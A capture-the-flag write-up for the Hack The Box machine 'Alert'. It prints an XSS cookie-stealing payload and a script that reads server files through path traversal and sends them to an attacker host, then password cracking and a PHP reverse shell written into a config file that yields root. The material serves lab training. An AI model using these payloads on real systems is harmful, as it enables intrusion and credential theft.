 # HTB Release Arena: Alert

![](../.gitbook/assets/d6657ac653fbaac0234f05d4af35f49d.png)

## Port Scan

```shell
# Nmap 7.94SVN scan initiated Tue Nov 26 17:13:16 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV -A -T4 -o port_scan 10.129.68.51
Nmap scan report for 10.129.68.51
Host is up (0.083s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   82.05 ms 10.10.14.1
2   82.72 ms 10.129.68.51

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 26 17:13:37 2024 -- 1 IP address (1 host up) scanned in 21.01 seconds

```

## Enumeration

```shell
┌──(kali㉿kali)-[~/HTB/Alert]
└─$ ffuf -u http://alert.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
------------------
┌──(kali㉿kali)-[~/Downloads]
└─$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://alert.htb:80/ -H 'Host: FUZZ.alert.htb' -fc 301 
```

![](../.gitbook/assets/66228c6986c50a98896388dd46fb4f38.png)

![](../.gitbook/assets/3e99db7c16fa89cd7881b6f9bcd8c411.png)

![](../.gitbook/assets/0ff1f90ec311458c467ff1983ed9bf33.png)

## XSS

By **Contact Us** page we are able to perform XSS attack:

```html
<script>fetch('http://10.10.14.72:8090?cookie=' + document.cookie);</script>
```

![](../.gitbook/assets/fb83ae8d072b50c8decadbf1c5ff66c1.png)

Put the below script in a **.md** file:

```javascript
<script>
  // Fetch the content of the specified file
  fetch("http://alert.htb/messages.php?file=../../../../../../../etc/apache2/apache2.conf")
    .then(response => response.text()) // Convert the response to text
    .then(data => {
      // Send the fetched data to a specified server
      fetch("http://10.10.14.72:8888/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching the messages:", error));
</script>

<!-- <img src="http://alert.htb/visualizer.php?link_share=674658646fa912.41675821.md"/> -->
```

Meanwhile start a python http server:

```python
python -m http.server 8888
```

Then go to **Contact Us** page:

![](../.gitbook/assets/a52193d3f18d7809a6e50b7a962ece2c.png)

![](../.gitbook/assets/cdd35bee4acff7ccd34b801b04d00689.png)

```xml
%3Cpre%3E%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Falert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Falert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20RewriteEngine%20On%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5Ealert%5C.htb%24%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5E%24%0A%20%20%20%20RewriteRule%20%5E%2F%3F(.*)%24%20http%3A%2F%2Falert.htb%2F%241%20%5BR%3D301%2CL%5D%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20statistics.alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Fstatistics.alert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20Indexes%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%20%20%20%20AuthType%20Basic%0A%20%20%20%20%20%20%20%20AuthName%20%22Restricted%20Area%22%0A%20%20%20%20%20%20%20%20AuthUserFile%20%2Fvar%2Fwww%2Fstatistics.alert.htb%2F.htpasswd%0A%20%20%20%20%20%20%20%20Require%20valid-user%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3C%2Fpre%3E%0A
```

```xml
<pre><VirtualHost *:80>
    ServerName alert.htb
    DocumentRoot /var/www/alert.htb
    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>
    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
<VirtualHost *:80>
    ServerName statistics.alert.htb
    DocumentRoot /var/www/statistics.alert.htb
    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>
    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
</pre>

```

Now repeat the procedure trying to acces **.htpasswd** file, replacing the path in the script:

```bash
http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd
```

After retriggering the XSS from Contact Us form we'll get:

![](../.gitbook/assets/0ce3ad006a392dc1ffbef62788e9a149.png)

```html
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24i******************
_______________
DECODED: 
<pre>albert:$apr1$*********Q/</pre>
```

Cracked it with haschat:

![](../.gitbook/assets/cfb06d3ecca98a143e24def872fd0428.png)

```shell
albert:m********
```

Login trough SSH into albert:

![](../.gitbook/assets/11d186566995b252209094ebcfe8f478.png)

```
userflag:de185f1ff*******************
```

## Privilege Escalation

From netsat we can see that there is a service running on port **8080**

![](../.gitbook/assets/1f93c2b0faaa4ffaea0fe1e682483b78.png)

![](../.gitbook/assets/ffc9628049ccd5f84b8c7be1f07aa741.png)

![](../.gitbook/assets/6529bd7a5d44e49e4ff0cdaf0c3b5b03.png)

The file **/opt/website-monitor/config/configuration.php** is writeable:

<div data-full-width="false"><img src="../.gitbook/assets/13f3b82f37651b33769179083c64c6a8.png" alt=""></div>

Add this line to **configuration.php**

```shell
$sock=fsockopen("10.10.14.72",9909);shell_exec("/bin/sh -i <&3 >&3 2>&3");
```

{% code fullWidth="false" %}
```shell
curl http://localhost:8080/config/configuration.php
---------------------------------------------------
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9909
listening on [any] 9909 ...
connect to [10.10.14.72] from (UNKNOWN) [10.129.161.22] 59662
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls
root.txt
scripts
# cat root.txt  
```
{% endcode %}

<div align="center" data-full-width="true"><img src="../.gitbook/assets/4ecc2194c78c07dbf8aa6e74d016a2d5.png" alt=""></div>

```shell
rootflag:238a5640d5acdd*****************
```
